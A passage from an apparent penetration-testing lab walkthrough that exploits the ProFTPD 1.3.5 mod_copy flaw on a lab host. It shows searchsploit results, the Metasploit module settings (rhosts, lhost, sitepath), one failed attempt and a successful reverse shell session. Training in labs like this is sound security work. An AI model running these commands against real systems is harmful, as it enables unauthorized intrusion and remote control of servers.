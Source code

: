 The Apache server displays a default Ubuntu page, but ProFTPD 1.3.5 stands out as potentially vulnerable. The default page reveals important information - it mentions the document root is at `/var/www/html/index.html`, which will be useful later.

#### Step 2: Vulnerability Research

Using searchsploit to identify known exploits for this specific version:

```bash
searchsploit ProFTPD 1.3.5
```

**Searchsploit Results:**
```
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)     | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution           | linux/remote/36803.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)       | linux/remote/49908.py
ProFTPd 1.3.5 - File Copy                                     | linux/remote/36742.txt
```

Multiple exploits available for the `mod_copy` vulnerability. This module allows arbitrary file copying, which can be leveraged for remote code execution when combined with web server access.

#### Step 3: Metasploit Exploitation

Launching Metasploit and configuring the exploit module:

```bash
msfconsole
search ProFTPD 1.3.5
use exploit/unix/ftp/proftpd_modcopy_exec
show options
```

**Initial Configuration:**
```bash
set rhosts target1.ine.local
set lhost 192.205.121.2
run
```

**Initial Attempt - Failed:**
```
[-] 192.205.121.3:80 - Exploit aborted due to failure: unknown: 192.205.121.3:21 - Failure copying PHP payload to website path, directory not writable?
[*] Exploit completed, but no session was created.
```

The exploit failed because the default `SITEPATH` value (`/var/www`) is incorrect. By examining the Apache default page content, we confirm the web root is actually at `/var/www/html`.

**Corrected Configuration:**
```bash
set sitepath /var/www/html
run
```

**Exploitation Success:**
```
[*] Started reverse TCP handler on 192.205.121.2:4444 
[*] 192.205.121.3:80 - 192.205.121.3:21 - Connected to FTP server
[*] 192.205.121.3:80 - 192.205.121.3:21 - Sending copy commands to FTP server
[*] 192.205.121.3:80 - Executing PHP payload /7Plrr.php
[*] Command shell session 1 opened (192.205.121.2:4444 -> 192.205.121.3:54408)
```
